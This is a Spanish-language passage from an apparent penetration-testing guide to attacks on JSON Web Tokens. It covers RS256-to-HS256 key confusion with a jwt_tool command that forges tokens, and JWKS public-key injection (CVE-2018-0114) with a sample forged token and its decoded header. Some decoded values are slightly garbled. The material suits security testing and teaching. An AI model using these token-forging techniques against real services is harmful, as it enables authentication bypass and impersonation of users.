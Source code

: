 Deconstruido:
```
{ "typ": "JWT", "alg": "HS256"}.
{"login": "ticarpi"}.
[Firmado con HMAC-SHA256, utilizando el archivo de clave pública identificado para el servicio como el 'secreto']
```

Necesitará una clave pública `RSA` para probar esto. A veces, la aplicación la proporciona a través de una `API` o algo oculto en los documentos.

También deberá utilizar el formato correcto de la clave pública. 

Si se proporciona la clave, está bien, si no, lo mejor es el formato `PEM`. Tenga en cuenta que `PEM` debe contener un solo carácter de nueva línea al final, sin embargo, algunas herramientas pueden omitir esto al exportar una clave.

Use el indicador `-V` de `jwt_tool` junto con el argumento `-pk public.pem` para verificar que la clave pública que encontró coincide con la clave utilizada para firmar el token

Use el modo de explotación `Key-Confusion` de `jwt_tool` para forjar un nuevo token de ataque:
```
$ python3 jwt_tool.py JWT_HERE -X k -pk my_public.pem
```

Si el resultado de la página es válido, entonces tiene un bypass, y debe seguir con el tampering.

### Inyección de Claves (JWKS) (CVE-2018-0114)

Conjunto de claves web JSON (`JWKS`).

Este ataque prueba una técnica de verificación menos utilizada en algunas bibliotecas `JWT`: la inclusión de una clave pública en línea.

El atacante puede firmar el token con una nueva clave privada, incluir la clave pública en el token y luego dejar que el servicio use esa clave para verificar el token.

Ejemplo:
```
.eyJsb2dpbiI6InRpY2FycGkifQ.jFu8Kewp-tJ4uLVTRm6D5wBkbikNtLufGHa8ZmEutAZyrPETaD5JaLHZ8Mlw6zBxCNKzmAXbEaDGtNoQ6rfIGHwiTwzk2C897HNR-vwTAyHh7lAgixelqrlkAP7OBWEALH_u7QuIDZpu79V4Aur9CzYai9UvaLqsHhFLf4Gwha9CGV68BnO_Cxye_5vRhzcWEPXIAp8DQMHEDovS6NF_CTEvKA8I6jp2nb726m0nLJo-WWKlCF0UNwSGZ3R3A0YFPL-I1Ld6_8W2dIZRKt4PAtEAPde-RIyf9vKWaHsQDaxnI40xxN3IwvkB2-nDUaTLZtVwBBiTEMoUrkoNTY6XKg
```

Deconstruido:
```
{"typ": "JWT", "alg": "RS256", "jwk": {"kty": "RSA", "kid": "TEST", "use": "sig", "e ":" Aqab", "n": "u7sEM4FioOrz81OHCAPdTf3gqG8vmv5RNRwSwKx_tj0plF9kvkDPuLL4UkrjNuB1cGuMajqqGLSezQCLAZdet - wqRmT_TcUxkbyVLWRbQH9QcIES4Qznsm2rDtZzxSUG6ue70AFmDfGbJEP0b96IesB_6PS9-EYwK_9y_vpE9he3MMJ8XDNIS9jcRRCjsmCVWPoPF_MMqFcff_yfO44OBERegN8pvo_T_pbj_ufE6_ZFzO4UIzBCsEDxDNffOQFGMG6hitcBo0NbRRAUaF7vhLaTdB3cEwO-eh4FiJogETLdlOEQWFVBfWKQhuabDSAgXfP9CWmxuJh9c3Q_KLdQw"}}.
{"login": "ticarpi"}.
[Firmado con nueva clave privada; Clave pública inyectada]
```

Cree un nuevo par de certificados `RSA`, inserte un archivo `JWKS` con los detalles de la clave pública y luego firme los datos con la clave privada. 
